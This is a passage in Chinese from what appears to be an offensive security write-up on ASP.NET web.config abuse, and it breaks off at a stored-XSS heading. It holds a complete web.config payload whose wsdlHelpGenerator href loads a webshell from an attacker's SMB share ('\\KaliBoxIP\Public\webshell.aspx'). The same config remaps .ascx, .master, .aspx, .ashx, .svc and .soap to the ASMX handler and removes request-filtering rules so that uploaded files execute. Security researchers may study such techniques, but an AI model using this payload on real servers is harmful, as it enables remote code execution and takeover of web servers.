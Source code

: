 这将从SMB共享加载webshell.aspx文件，并在打开该文件夹中的ASMX文件时执行它。

也可以重新映射.master和.ascx扩展，并像ASMX文件一样使用它们。 上传这些文件的可能性高于其他ASP.NET扩展，例如`.aspx，.asmx，.ashx，.svc和.soap`，它们也可以使用相同的技术接管。

以下web.config文件显示了可以接管多个文件扩展名的示例：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <webServices>
            <protocols>
                <add name="Documentation"/>
            </protocols>
            <wsdlHelpGenerator href="\\KaliBoxIP\Public\webshell.aspx"/>
        </webServices>
    </system.web>
    <system.webServer>
        <handlers>
            <add name="remap_asmx1" path="*.ascx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx2" path="*.master" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx3" path="*.aspx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx4" path="*.ashx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx5" path="*.svc" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx6" path="*.soap" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".ascx" />
                    <remove fileExtension=".master" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

当`SMB`被阻止时，可能很难使用此技术，因为`wsdlHelpGenerator`元素的href属性中的文件扩展名很重要。

#### 2.3 存储XSS
